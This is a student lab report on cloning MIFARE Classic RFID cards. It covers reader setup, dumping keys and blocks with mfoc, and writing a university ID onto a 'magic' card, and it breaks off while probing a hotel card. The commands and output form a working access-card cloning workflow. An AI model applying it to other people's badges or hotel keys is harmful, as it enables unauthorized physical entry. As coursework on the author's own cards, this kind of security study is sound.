








# OT Lab 5 Physical Access

Artem Abramov


## Task 1 - RFID light (3.5 points)


### Theory

There are three generations of  technology enabling writing to block 0 of cards:

- Generation 1 - used special code sequence to unlock writing to block 0
- Generation 2 - used standard MiFare commands to write to block 0 (android apps that exploit NFC can only write these cards, because NFC is not low-level enough to allow sending special codes)
- Generation 3 - Get sealed after writing one (making it impossible to differentiate between this Chineese clone and card from legitimate manufacturer).

The technology for improving MiFare card security also has broadly speaking two generations:

- Generation 1 - fixed read-only block 0 by manufacturer at factory. Nothing else is protected.
- Generation 2 - Two keys (master key - B, derived key - A), three pass authentication,  access conditions (i.e. read/write permissions per block), source: https://stackoverflow.com/questions/19319069/mifare-1k-what-is-the-use-of-two-keys

Its interesting how three pass authentication is implemented:

```
	1. The reader specifies the sector to be accessed and chooses key A or B.
	2. The card reads the secret key and the access conditions from the sector trailer. 	   Then the card sends a number as the challenge to the reader (pass one).
	3. The reader calculates the response using the secret key and additional input. 	  
	   Theresponse, together with a random challenge from the reader, is then transmitted 
	   to thecard (pass two).
	4. The card verifies the response of the reader by comparing it with its own 
	   challengeand then it calculates the response to the challenge and transmits it
	   (pass three).
	5. The reader verifies the response of the card by comparing it to its own challenge.

After transmission of the first random challenge the communication between card andreader is encrypted.
```

source: https://www.nxp.com/docs/en/data-sheet/MF1S50YYX_V1.pdf


Default Access Control bits: 

```
static uint8_t default_acl[] = {0xff, 0x07, 0x80, 0x69};
```

source: https://github.com/nfc-tools/libnfc/blob/master/utils/nfc-mfclassic.c#L90


Good sources of information:

- SmartLockPicking NFC presentations (videos) - http://smartlockpicking.com/slides/
- SmartLockPicking NFC security theory - http://smartlockpicking.com/slides/Confidence_A_2018_Practical_Guide_To_Hacking_RFID_NFC.pdf
- SmartLockPicking NFC cracking workshop - http://smartlockpicking.com/slides/HiP19_Cracking_Mifare_Classic_on_the_cheap_workshop.pdf
- Card access control bits calculator - https://cardinfo.barkweb.com.au/index.php?location=19&sub=20
- MiFare Classic EV1 datasheet - https://www.nxp.com/docs/en/data-sheet/MF1S50YYX_V1.pdf


### 1. Clone your Innopolis ID card

The first step was getting the card reader to work. There are two ways to connect ACR122U tag reader to libnfc (that can interpret the nfc data):

- Via PC/SC daemon - legacy and deprecated

- Directly via USB - Modern and recommended

source: https://stackoverflow.com/questions/45508174/force-pc-sc-driver-on-acr122u-nfc-reader


This lab was done in Arch Linux. Install libnfc package.

Prevent conflicting drivers from loading (blacklisting is not enough): 

```
# echo "install nfc /bin/false" >> /etc/modprobe.d/blacklist.conf
# echo "install pn533 /bin/false" >> /etc/modprobe.d/blacklist.conf
# echo "install pn533_usb /bin/false" >> /etc/modprobe.d/blacklist.conf
```

Reload udev rules or simply reboot (I had to reboot). 

source: https://wiki.archlinux.org/index.php/Touchatag_RFID_Reader


I was using ACR122U reader as shown below:

```
# lsusb -v 
Bus 001 Device 011: ID 072f:2200 Advanced Card Systems, Ltd ACR122U
Device Descriptor:
  bLength                18
  bDescriptorType         1
  bcdUSB               1.10
  bDeviceClass            0 
  bDeviceSubClass         0 
  bDeviceProtocol         0 
  bMaxPacketSize0         8
  idVendor           0x072f Advanced Card Systems, Ltd
  idProduct          0x2200 ACR122U
  bcdDevice            2.14
```

Note: bcdDevice - 2.14 is the firmware version.


Checking that reading works:

```
# nfc-list
nfc-list uses libnfc 1.7.1
NFC device: ACS / ACR122U PICC Interface opened
```


Reading my inno student id card:

```
# nfc-list
nfc-list uses libnfc 1.7.1
NFC device: ACS / ACR122U PICC Interface opened
1 ISO14443A passive target(s) found:
ISO/IEC 14443A (106 kbps) target:
    ATQA (SENS_RES): 00  04  
       UID (NFCID1): 42  14  3e  2e  
      SAK (SEL_RES): 08  
```


To actually extract and copy the card dump, I used mfoc tool. 

sources: 

- https://github.com/nfc-tools/mfoc

- https://gist.github.com/alphazo/3303282). 

I had problems with the cards. All the cards I had were failing during write, but reading was working. However later I took one card from Costya that worked with writing on first try. I used this card to clone my innopolis student id as shown below. 


Using mfoc tool to dump card image:

```
# mfoc -P 500 -O blank-1.dmp

Found Mifare Classic 1k tag
ISO/IEC 14443A (106 kbps) target:
    ATQA (SENS_RES): 00  04  
* UID size: single
* bit frame anticollision supported
       UID (NFCID1): d3  7f  ad  2c  
      SAK (SEL_RES): 08  
* Not compliant with ISO/IEC 14443-4
* Not compliant with ISO/IEC 18092

Fingerprinting based on MIFARE type Identification Procedure:
* MIFARE Classic 1K
* MIFARE Plus (4 Byte UID or 4 Byte RID) 2K, Security level 1
* SmartMX with MIFARE 1K emulation
Other possible matches based on ATQA & SAK values:

Try to authenticate to all sectors with default keys...
Symbols: '.' no key found, '/' A key found, '\' B key found, 'x' both keys found
[Key: ffffffffffff] -> [xxxxxxxxxxxxxxxx]
[Key: a0a1a2a3a4a5] -> [xxxxxxxxxxxxxxxx]
[Key: d3f7d3f7d3f7] -> [xxxxxxxxxxxxxxxx]
[Key: 000000000000] -> [xxxxxxxxxxxxxxxx]
[Key: b0b1b2b3b4b5] -> [xxxxxxxxxxxxxxxx]
[Key: 4d3a99c351dd] -> [xxxxxxxxxxxxxxxx]
[Key: 1a982c7e459a] -> [xxxxxxxxxxxxxxxx]
[Key: aabbccddeeff] -> [xxxxxxxxxxxxxxxx]
[Key: 714c5c886e97] -> [xxxxxxxxxxxxxxxx]
[Key: 587ee5f9350f] -> [xxxxxxxxxxxxxxxx]
[Key: a0478cc39091] -> [xxxxxxxxxxxxxxxx]
[Key: 533cb6c723f6] -> [xxxxxxxxxxxxxxxx]
[Key: 8fd0a4f256e9] -> [xxxxxxxxxxxxxxxx]

Sector 00 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 01 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 02 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 03 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 04 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 05 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 06 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 07 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 08 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 09 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 10 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 11 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 12 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 13 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 14 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 15 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff

We have all sectors encrypted with the default keys..

Auth with all sectors succeeded, dumping keys to a file!
Block 63, type A, key ffffffffffff :00  00  00  00  00  00  ff  07  80  69  ff  ff  ff  ff  ff  ff  
Block 62, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 61, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  

[...skipping similar lines...]

Block 04, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 03, type A, key ffffffffffff :00  00  00  00  00  00  ff  07  80  69  ff  ff  ff  ff  ff  ff  
Block 02, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 01, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 00, type A, key ffffffffffff :d3  7f  ad  2c  2d  08  04  00  01  27  70  ec  30  7f  1a  1d  
```

Then I similarly took a dump of my innoopolis ID:

```
# sudo mfoc -P 500 -O inno-id.mfd 
Found Mifare Classic 1k tag
ISO/IEC 14443A (106 kbps) target:
    ATQA (SENS_RES): 00  04  
* UID size: single
* bit frame anticollision supported
       UID (NFCID1): 42  14  3e  2e  
      SAK (SEL_RES): 08  
* Not compliant with ISO/IEC 14443-4
* Not compliant with ISO/IEC 18092

Fingerprinting based on MIFARE type Identification Procedure:
* MIFARE Classic 1K
* MIFARE Plus (4 Byte UID or 4 Byte RID) 2K, Security level 1
* SmartMX with MIFARE 1K emulation
Other possible matches based on ATQA & SAK values:

Try to authenticate to all sectors with default keys...
Symbols: '.' no key found, '/' A key found, '\' B key found, 'x' both keys found
[Key: ffffffffffff] -> [xxxxxxxxxxxxxxxx]
[Key: a0a1a2a3a4a5] -> [xxxxxxxxxxxxxxxx]
[Key: d3f7d3f7d3f7] -> [xxxxxxxxxxxxxxxx]
[Key: 000000000000] -> [xxxxxxxxxxxxxxxx]
[Key: b0b1b2b3b4b5] -> [xxxxxxxxxxxxxxxx]
[Key: 4d3a99c351dd] -> [xxxxxxxxxxxxxxxx]
[Key: 1a982c7e459a] -> [xxxxxxxxxxxxxxxx]
[Key: aabbccddeeff] -> [xxxxxxxxxxxxxxxx]
[Key: 714c5c886e97] -> [xxxxxxxxxxxxxxxx]
[Key: 587ee5f9350f] -> [xxxxxxxxxxxxxxxx]
[Key: a0478cc39091] -> [xxxxxxxxxxxxxxxx]
[Key: 533cb6c723f6] -> [xxxxxxxxxxxxxxxx]
[Key: 8fd0a4f256e9] -> [xxxxxxxxxxxxxxxx]

Sector 00 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 01 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 02 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 03 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 04 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 05 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 06 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 07 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 08 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 09 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 10 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 11 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 12 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 13 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 14 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
Sector 15 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff

We have all sectors encrypted with the default keys..

Auth with all sectors succeeded, dumping keys to a file!
Block 63, type A, key ffffffffffff :00  00  00  00  00  00  ff  07  80  69  ff  ff  ff  ff  ff  ff  
Block 62, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 61, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 60, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  

[...skipping similar lines...]

Block 03, type A, key ffffffffffff :00  00  00  00  00  00  ff  07  80  69  ff  ff  ff  ff  ff  ff  
Block 02, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 01, type A, key ffffffffffff :00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  00  
Block 00, type A, key ffffffffffff :42  14  3e  2e  46  08  04  00  62  63  64  65  66  67  68  69  
```


Writing to a working card was easy:

```
# nfc-mfclassic W a blank-1.dmp inno-id.mfd 
NFC reader: ACS / ACR122U PICC Interface opened
Found MIFARE Classic card:
ISO/IEC 14443A (106 kbps) target:
    ATQA (SENS_RES): 00  04  
       UID (NFCID1): d3  7f  ad  2c  
      SAK (SEL_RES): 08  
Guessing size: seems to be a 1024-byte card
Sent bits:     50  00  57  cd  
Sent bits:     40 (7 bits)
Received bits: a (4 bits)
Sent bits:     43  
Received bits: 0a  
Card unlocked
Writing 64 blocks |................................................................|
Done, 64 of 64 blocks written.
```

Looks like this card was generation 1 Chinese card, as it responded to the unlock sequence.

Afterwards reading from the card correctly gave the same id as reading from innopolis ID student card:

```
# nfc-list
nfc-list uses libnfc 1.7.1
NFC device: ACS / ACR122U PICC Interface opened
1 ISO14443A passive target(s) found:
ISO/IEC 14443A (106 kbps) target:
    ATQA (SENS_RES): 00  04  
       UID (NFCID1): 42  14  3e  2e  
      SAK (SEL_RES): 08 
```


I do not know what to make of the Chinese cards that that were not writable. The unlock sequence failed for them. However, they were also not direct write cards (i.e. they were not generation 2) because it was also impossible to write to them using NFC tool for android (which should work if they are second generation magic cards). 

One of the possible ideas for failing is that the cards may be some modification of second generation, but they are not detected properly: https://github.com/nfc-tools/libnfc/issues/566

Another is that they are third generation, and hence can not be written to anymore.


Reading with NFC Tools android app show that everything is normal:




(source: https://play.google.com/store/apps/details?id=com.wakdev.wdnfc)


Checking with more advanced MifareClassicTool android tool shows the access bits are alright and keys are set to default:


 (source https://play.google.com/store/apps/details?id=de.syss.MifareClassicTool) 


I downloaded the source code to the nfc-mfclassic tool and compiled it from source.

Run autotools:

```
autoreconf -vis
```

Run configure (optimised for one usb driver):

```
# ./configure --with-drivers=acr122_usb
... skipping lines...

Selected drivers:
   pcsc............. no
   acr122_pcsc...... no
   acr122_usb....... yes
   acr122s.......... no
   arygon........... no
   pn53x_usb........ no
   pn532_uart....... no
   pn532_spi.......  no
   pn532_i2c........ no
   pn71xx........... no
```

Finally build:

```
make
```


I did various modifications to the source code to try forcing a write to the card in DirectMode, but no luck:

```
sudo ./libnfc/utils/nfc-mfclassic w a blank-62D6.mfd inno-id.mfd
NFC reader: ACS / ACR122U PICC Interface opened
Found MIFARE Classic card:
ISO/IEC 14443A (106 kbps) target:
    ATQA (SENS_RES): 00  04  
       UID (NFCID1): 62  d6  49  35  
      SAK (SEL_RES): 08  
RATS support: no
num of blocks: 64
Guessing size: seems to be a 1024-byte card
Checking if Badge is DirectWrite...
 Original Block 0: 62d64935c808040002cdbf8e083d141d
 Original UID: 62d64935
 Attempt to write Block 0 ...
Failure to write to data block 0
Card is not DirectWrite
Writing 64 blocks |nfc_initiator_transceive_bytes: Mifare Authentication Failed
nfc_initiator_transceive_bytes: Mifare Authentication Failed
nfc_initiator_transceive_bytes: Mifare Authentication Failed
nfc_initiator_transceive_bytes: Mifare Authentication Failed
nfc_initiator_transceive_bytes: Mifare Authentication Failed
nfc_initiator_transceive_bytes: Mifare Authentication Failed
nfc_initiator_transceive_bytes: Mifare Authentication Failed
nfc_initiator_transceive_bytes: Mifare Authentication Failed
nfc_initiator_transceive_bytes: Mifare Authentication Failed
!
Error: authentication failed for block 04
```

The above suggests that it is not a DirectWrite card, i.e. it is not generation 2 card.


### 2. Then seek for any kinds of RFID tags around you and/or pick one from the instructor
• Identify / analyze
– what technology? is it vulnerable?
– type A or B?
– w/ or w/o encryption?
• Crack, dump the content and clone it
• Bonus: and/or further analyze its data structure


I had a few low frequency cards that could not be read by any means I had. Which is a shame, it would have been interesting to read door keys.

Another thing to note is that reading cards with NFC apps on android is not really reliable, for example below are two reading of the same entry card (accidentally stolen by me about a year ago).


Reading using NFC Tools android app:

 


Reading the same card using MIFARE Classic Tool android app:



We can see that according to one reading KeyA is 000000 and according to another reading it is FFFFFF.
Which one to trust?


According to mfoc:
```
# mfoc -P 500 -O second-62D6.mfd
[sudo] password for artem: 
Found Mifare Classic 1k tag
ISO/IEC 14443A (106 kbps) target:
    ATQA (SENS_RES): 00  04  
* UID size: single
* bit frame anticollision supported
       UID (NFCID1): 62  d6  49  35  
      SAK (SEL_RES): 08  
* Not compliant with ISO/IEC 14443-4
* Not compliant with ISO/IEC 18092

Fingerprinting based on MIFARE type Identification Procedure:
* MIFARE Classic 1K
* MIFARE Plus (4 Byte UID or 4 Byte RID) 2K, Security level 1
* SmartMX with MIFARE 1K emulation
Other possible matches based on ATQA & SAK values:

Try to authenticate to all sectors with default keys...
Symbols: '.' no key found, '/' A key found, '\' B key found, 'x' both keys found
[Key: ffffffffffff] -> [xxxxxxxxxxxxxxxx]
[Key: a0a1a2a3a4a5] -> [xxxxxxxxxxxxxxxx]
[Key: d3f7d3f7d3f7] -> [xxxxxxxxxxxxxxxx]
[Key: 000000000000] -> [xxxxxxxxxxxxxxxx]
[Key: b0b1b2b3b4b5] -> [xxxxxxxxxxxxxxxx]
[Key: 4d3a99c351dd] -> [xxxxxxxxxxxxxxxx]
[Key: 1a982c7e459a] -> [xxxxxxxxxxxxxxxx]
[Key: aabbccddeeff] -> [xxxxxxxxxxxxxxxx]
[Key: 714c5c886e97] -> [xxxxxxxxxxxxxxxx]
[Key: 587ee5f9350f] -> [xxxxxxxxxxxxxxxx]
[Key: a0478cc39091] -> [xxxxxxxxxxxxxxxx]
[Key: 533cb6c723f6] -> [xxxxxxxxxxxxxxxx]
[Key: 8fd0a4f256e9] -> [xxxxxxxxxxxxxxxx]

Sector 00 - Found   Key A: ffffffffffff Found   Key B: ffffffffffff
```

The keyA is FFFFFF.


Then I tried reading a card from a hotel that actually had a non-default key:  

```
sudo mfoc -P 500 -O nogai-3.mfd          
[sudo] password for artem: 
Found Mifare Classic 1k tag
ISO/IEC 14443A (106 kbps) target:
    ATQA (SENS_RES): 00  04  
* UID size: single
* bit frame anticollision supported
       UID (NFCID1): 85  6d  1e  f1  
      SAK (SEL_RES): 08  
* Not compliant with ISO/IEC 14443-4
* Not compliant with ISO/IEC 18092

Fingerprinting based on MIFARE type Identification Procedure:
* MIFARE Classic 1K
* MIFARE Plus (4 Byte UID or 4 Byte RID) 2K, Security level 1
* SmartMX with MIFARE 1K emulation
Other possible matches based on ATQA & SAK values:

Try to authenticate to all sectors with default keys...
Symbols: '.' no key found, '/' A key found, '\' B key found, 'x' both keys found
[Key: ffffffffffff] -> [...xxxxxxxxxxxxx]
[Key: a0a1a2a3a4a5] -> [/./xxxxxxxxxxxxx]
[Key: d3f7d3f7d3f7] -> [/./xxxxxxxxxxxxx]
[Key: 000000000000] -> [/./xxxxxxxxxxxxx]
